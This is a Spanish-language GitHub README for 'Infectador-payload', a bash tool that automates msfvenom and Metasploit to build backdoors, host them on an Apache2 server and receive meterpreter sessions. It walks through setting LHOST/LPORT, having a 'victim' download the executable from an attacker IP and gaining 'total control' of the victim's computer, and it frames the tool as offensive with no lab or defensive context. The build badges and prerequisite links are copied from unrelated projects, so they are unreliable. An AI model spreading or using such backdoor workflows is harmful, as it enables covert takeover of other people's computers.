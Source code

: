 # Infectador-payload

[![Twitter](https://twitter.com/WEIK14356918)
[![Build Status](https://github.com/moby/buildkit/workflows/build/badge.svg)](https://github.com/moby/buildkit/actions?query=workflow%3Abuild)
[![Go Report Card](https://goreportcard.com/badge/github.com/moby/buildkit)](https://goreportcard.com/report/github.com/moby/buildkit)
[![codecov](https://codecov.io/gh/moby/buildkit/branch/master/graph/badge.svg)](https://codecov.io/gh/moby/buildkit)

Herramienta perfecta para crear cargas utiles (Backdoors) a una alta velocidad, esta herramienta preside de diferentes opciones, incluiendo la opcion de poder subir tu carga util a un servidor web (apache2).

![backdoor](https://user-images.githubusercontent.com/69093629/104139012-b4ed6500-53a8-11eb-933c-95a869b21c6a.png)

- **INTERFAZ: Grafica**

- **IMPORTANTE: Para utilizar esta herramieta debes tener conocimientos medios en Linux ya que sino no sabras que es lo que estas haciendo.**

- **HERRAMIENTA: Automatizada**

## Pre-requisitos 📋

* [Metaploit](http://www.dropwizard.io/1.0.2/docs/) 
* [xterm](http://www.dropwizard.io/1.0.2/docs/) 

**Instalar Metasploit**
```
sudo apt-get install -y postgresql
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```
**Instalar Xterm**
```
apt-get install xterm 
```
## Instalacion ✅
```
git clone https://github.com/WackyHacker/Infectador-payload
```
```
cd Infectador-payload 
```
```
sudo su
```
```
bash Infectador-payload.sh
```

## Construido con 🛠️

* [Metasploit](https://www.metasploit.com/) - Despliege de carga util
* [Msfvenom](https://www.metasploit.com/) - Creador de cargas utiles
* [Apache2](https://httpd.apache.org/) - Servidor web

## Autor ✒️

* **WackyHacker** - *Todo el proyecto* - [WEIK](https://github.com/WackyHacker)

## Licencia 📄

Este proyecto esta bajo Licencia - mira el archivo [License.md](https://github.com/WackyHacker/Infectador-payload/blob/master/License.md) para mas detalles

## ¿Como funciona?

Antes de ejecutar la herramienta con 'sudo bash Infectador-payload', ejecuta primero 'sudo su' y después ejecuta 'bash' Infectador-payload, si no se hace puede que de problemas en el futuro.


![Captura de pantalla (34)](https://user-images.githubusercontent.com/69093629/104134506-41d4f600-538a-11eb-8aff-79a331979e98.png)


Una vez la herramienta ya esta ejecutada correctamente, se vera algo asi.


![Captura de pantalla (32)](https://user-images.githubusercontent.com/69093629/104134712-c5431700-538b-11eb-8f40-816c6b25a571.png)


Utilizarla es muy sencillo solo hay que seleccionar la opción a utilizar (la ultima esta en mantenimiento), una vez elegida debemos seleccionar la carga útil de nuestra preferencia.

![videosito](https://user-images.githubusercontent.com/69093629/104136758-66d06580-5398-11eb-9526-58302e9f286b.gif)

Una vez elegidas las opciones de preferencia a utilizar, hay que escribir el 'LHOST' , 'LPORT'>[Recomendable: 4444], el nombre de tu Backdoor sin su extensión [EX: exe, py] , y finalmente la ruta donde quieres guardar el Backdoor (ojo si eliges que el ataque se efectúe fuera de la red LAN >ngrok< la víctima no podra descargar e instalar el Backdoor a menos que este conectada en la misma red WI-FI que tu) si eliges sin querer subir tu Backdoor a un servidor apache2, para arreglarlo o pulsamos CTRL + C para salir de la herramienta, o puedes acceder a la ruta donde está alojado el servidor apache2 con este comando 'cd /var/www/html/' y tu Backdoor estará ahí, para no tener problemas, cuando te pida que digites una ruta para guardar el Backdoor, pulsa 'ENTER' y se te guardará automáticamente en el mismo directorio que estás ahora mismo en la carpeta Backdoors.


Y se empezará a crear el Backdoor satisfactoriamente...

![video2](https://user-images.githubusercontent.com/69093629/104136537-2cb29400-5397-11eb-8d1d-3ffdea3bd598.gif)

Una vez termine de crearse la carga util nos hara dos preguntas la primera es '¿Quieres eliminar el Backdoor...?' le pondremos que no de lo contrario 
nos lo eliminara y tendremos que crear uno de nuevo, la segunda es '¿Quieres iniciar Metasploit?' aqui puedes o poner que si o abrir una nueva terminal y abrirlo manualmente.

![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138852-61c6e280-53a7-11eb-806e-595e7e76e1f7.png)

Una vez todo hecho quedaria algo asi: 

![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138832-275d4580-53a7-11eb-8ba0-76d317e35bca.png)

Ahora solo faltaria copiar la seccion que pone 'COPIE Y PEGUE ESTO EN METASPLOIT' lo copiamos y lo pegamos o lo hacemos manualmente, una vez hecho se nos quedaria en escucha nuestra carga util. Ahora iremos a nuestro ordenador victima y instalaremos la carga util de esta manera ``` http://[IP ATACANTE]/[nombre.exe] ``` 

![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)

Una vez el Backdoor instalado a nuestro ordenador victima le llegara una conexion 'meterpreter' eso quiere decir que ya tendremos control total del ordenador victima.

![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)

¡Dejame una ★ si te ha servido!




